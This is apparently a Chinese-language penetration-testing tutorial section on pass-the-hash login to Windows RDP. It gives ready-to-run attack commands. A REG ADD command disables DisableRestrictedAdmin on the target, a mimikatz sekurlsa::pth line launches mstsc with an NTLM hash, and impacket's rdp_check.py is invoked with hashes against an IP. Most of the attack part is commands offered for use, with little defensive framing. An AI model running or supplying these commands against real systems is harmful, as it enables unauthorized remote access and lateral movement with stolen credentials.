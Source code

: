 4.PTH RDP

**4.1 前言**

有时候抓不到明文密码，也想登陆 rdp 服务咋办？这时候就可以 PTH RDP，利用 hash 去认证 rdp 服务。

关于 RDP 协议的参考资料：

```
https://github.com/FreeRDP/FreeRDP/wiki/Reference-Documentation
```

如果使用 hash 远程登录 RDP，服务端需要开启 "Restricted Admin Mode", 在 Windows8.1 和 Windows Server 2012R2 上默认开启，Client 也需要支持 Restricted Admin mode。

**手动修改注册表开启方法**

位置：

```
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa
```

新建 DWORD 键值 DisableRestrictedAdmin，值为 0，代表开启; 值为 1，代表关闭

```
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f

查看是否已开启

REG query "HKLM\System\CurrentControlSet\Control\Lsa" | findstr "DisableRestrictedAdmin"
```

使用 minikatz 来进行 PTH

```
privilege::debug
sekurlsa::pth /user:admin /domain:DESKTOP /ntlm:hash"/run:mstsc.exe /restrictedadmin"
```

**也可以用 Python 实现 (rdp_check.py)**

代码地址：

```
https://github.com/SecureAuthCorp/impacket/blob/master/examples/rdp_check.py
```

脚本运行前需要安装 Impacket  

```
rdp_check.py /administrator@192.168.1.1 -hashes:hashes
```

总结

Rdp 爆破就不说了

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODsGoxEE3kouByPbyxDTzYIgX0gMz5ic70ZMzTSNL2TudeJpEAtmtAdGg9J53w4RUKGc34zEyiboMGWw/640?wx_fmt=png)

END
